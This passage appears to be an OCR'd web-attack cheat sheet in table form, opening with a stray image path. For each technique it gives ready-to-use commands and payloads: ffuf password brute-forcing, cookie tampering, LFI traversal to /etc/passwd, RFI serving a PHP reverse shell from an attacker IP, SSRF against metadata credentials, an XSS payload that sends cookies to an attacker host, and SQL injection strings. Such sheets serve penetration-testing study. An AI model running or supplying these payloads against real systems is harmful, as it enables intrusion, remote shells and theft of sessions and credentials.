 | Password Brute-Force               | On a login form, use a list of known usernames and common passwords to attempt to log in. Filter out failed login attempts (e.g., by response code or size).                                                                       | `ffuf -w <USER_LIST>:W1,<PASS_LIST>:W2 -X POST -d "username=W1&password=W2" -H "Content-Type: ..." -u <LOGIN_URL> -fc <HTTP_CODE_FOR_FAIL>`                                                                                                                  |
| Cookie Tampering                   | Inspect cookies in Burp or browser dev tools. Look for human-readable values like `admin=false`, `userID=123`, or `logged_in=no`.                                                                                                  | Modify the cookie values and resend the request. <br> `curl -H "Cookie: logged_in=true; admin=true" http://<TARGET>/admin`                                                                                                                                   |
| **3. Server-Side Attacks**         |                                                                                                                                                                                                                                    |                                                                                                                                                                                                                                                              |
| Local File Inclusion (LFI)         | Look for parameters that include local files (e.g., `?page=about.php`, `?file=user.txt`). Test with directory traversal payloads.                                                                                                  | `curl http://<TARGET>/page.php?file=../../../../etc/passwd` <br> `curl -o- <URL>/index.php?page=../../../../../../../../windows/system32/drivers/etc/hosts` <br> (Old PHP) Use a null byte to bypass extension appending: `.../etc/passwd%00`                                                                                                                |
| Remote File Inclusion (RFI)        | Identify a parameter that accepts a URL. The server will fetch and execute/render the content from that URL.                                                                                                                       | **1. Host Payload:** `cp /usr/share/webshells/php/php-reverse-shell.php ./shell.php` (edit IP/port). <br> **2. Serve Payload:** `python3 -m http.server 80` <br> **3. Trigger Exploit:** `curl http://<TARGET>/page.php?file=http://<ATTACKER_IP>/shell.php` |
| Server-Side Request Forgery (SSRF) | Look for parameters that fetch data from another URL (e.g., `?image_url=`, `?server=`).                                                                                                                                            | Manipulate the URL to make the server request internal resources. <br> `http://<TARGET>/item?server=127.0.0.1/admin` <br> `.../item?server=metadata.internal/latest/credentials`                                                                             |
| **4. Client-Side Attacks (XSS)**   |                                                                                                                                                                                                                                    |                                                                                                                                                                                                                                                              |
| Cross-Site Scripting (XSS)         | Test every input field with basic payloads. Use a polyglot for complex filtering. The goal is often to steal admin cookies.                                                                                                        | **Simple Test:** `<script>alert(1)</script>` <br> **Cookie Stealing Payload:** `<script>fetch('http://<ATTACKER_IP>:<PORT>/?c=' + btoa(document.cookie));</script>`                                                                                          |
| **5. SQL Injection (SQLi)**        |                                                                                                                                                                                                                                    |                                                                                                                                                                                                                                                              |
| SQLi Identification                | Append a single quote (`'`) to parameters and look for a database error or a change in the page content. For blind SQLi, inject a time-delay function.                                                                             | `http://<URL>?id=1'` <br> `...id=1' AND SLEEP(5)-- -`                                                                                                                                                                                                        |
| Union-Based SQLi                   | **1. Find Column Count:** `...id=1' ORDER BY 1-- -`, `...ORDER BY 2-- -`, etc. <br> **2. Extract Data:** `...id=0' UNION SELECT 1,group_concat(table_name),3,4,5 FROM information_schema.tables WHERE table_schema=database()-- -` |                                                                                                                                                                                                                                                              |